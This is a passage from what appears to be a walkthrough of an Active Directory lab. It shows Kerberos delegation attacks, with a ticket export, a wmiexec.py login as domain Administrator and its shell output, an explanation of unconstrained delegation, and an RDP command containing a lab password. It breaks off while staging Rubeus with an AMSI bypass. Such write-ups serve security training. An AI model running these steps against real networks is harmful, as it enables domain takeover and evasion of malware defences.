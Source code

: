 Then export the ticket:

`export KRB5CCNAME=/home/kali/Documents/delegations/Coercer/coercer/Administrator@CIFS_winterfell@NORTH.SEVENKINGDOMS.LOCAL.ccache`

Now let's use this to connect using `wmiexec.py`:

`wmiexec.py -k -no-pass north.sevenkingdoms.local/administrator@winterfell`

And I got connected:

```bash
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
north\administrator
```

# Unconstrained Delegation

The server or the service account can authenticate on behalf of the user to any other service.

For this to happen there are two prerequisites:
- Account that wants to delegate an authentication has the **TRUSTED_FOR_DELEGATION** flag in his **UAC - User Account Control** flag.To set this flag, you need to have the **SeEnableDelegationPrivilege** right, which is usually only available for Domain Administrators.
- The user account which will be relayed is **relayable.** To disable relaying capabilities on an account, **NOT_DELEGATED** flag is set. By default, no account on the AD has this flag set are all "relayable." 

During exchanges with the Domain Controller, when the users asks for a TGS, he will specify the SPN of the service he wants to use. At this point the Domain Controller looks for the two prerequisites:
- Is the **TRUSTED_FOR_DELEGATION** flag set in the attributes of the account associated to the SPN.
- Is the **NOT_DELEGATION** flag not set for the requesting user.

If both of these are met, the Domain Controller will respond to the user with a TGS containing standard information, but also contains a copy of the user's TGT in his response, and a new associated session key.

## Exploiting Unconstrained Delegation

First, get an RDP connection on Winterfell:

`xfreerdp /d:north.sevenkingdoms.local /u:eddard.stark /p:'FightP3aceAndHonor! /v:10.4.10.11 /cert-ignore`

In the Kali Machine prepare a folder with the `Rubeus.exe` and AMSI (Anti-malware Scan Interface) bypass.

In the folder, clone the following github repo for the Rubeus.exe, and keep only the Rubeus.exe file:
